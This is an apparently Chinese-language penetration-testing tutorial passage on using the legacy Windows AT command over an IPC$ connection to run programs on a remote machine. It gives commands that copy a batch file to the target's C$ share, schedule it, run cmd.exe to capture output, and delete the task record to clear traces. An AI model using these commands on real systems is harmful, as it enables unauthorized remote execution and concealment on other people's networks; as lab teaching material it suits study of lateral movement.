 AT命令是Windows XP中内置的命令，它也可以媲美Windows中的“计划任务”，而且在计划的安排、任务的管理、工作事务的处理方面，AT命令具有更强⼤更神通的功能。AT命令可在指定时间和日期、在指定计算机上运行命令和程序

**AT 命令在 Windows 2008 以下的操作系统内置，例如 Windows 2003**

在使用 at 命令在远程机器上创建计划任务之前，需要使使用net use 命令建立ipc$：

1.  例如让目标机器 win\_server2008（10.10.10.8）在下午 5:20 分运行 calc.bat：

```
#查看⽬标系统时间
net time \\10.10.10.8
#将⽂件复制到⽬标系统中
copy calc.bat \\10.10.10.8\c$ 
#使⽤at创建计划任务
at \\10.10.10.8 5:20PM C:\calc.bat
#清除at记录
at \\10.10.10.8 ID /delete
```

![在这里插入图片描述](%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F_IPC.assets/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAQmV5b25kIE15,size_18,color_FFFFFF,t_70,g_se,x_16.png)

已成功添加运行

![在这里插入图片描述](%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F_IPC.assets/bd015d3f452441ad9735ad980b355b67.png)

2\. at 命令还可以利用 cmd 执行命令并把结果返回到⼀个文本里

```
# 使⽤cmd执⾏命令：
at \\10.10.10.8 5:40PM cmd.exe /c "ipconfig >C:/3.txt"
# type读取⽂本
type \\10.10.10.8\C$\3.txt
```
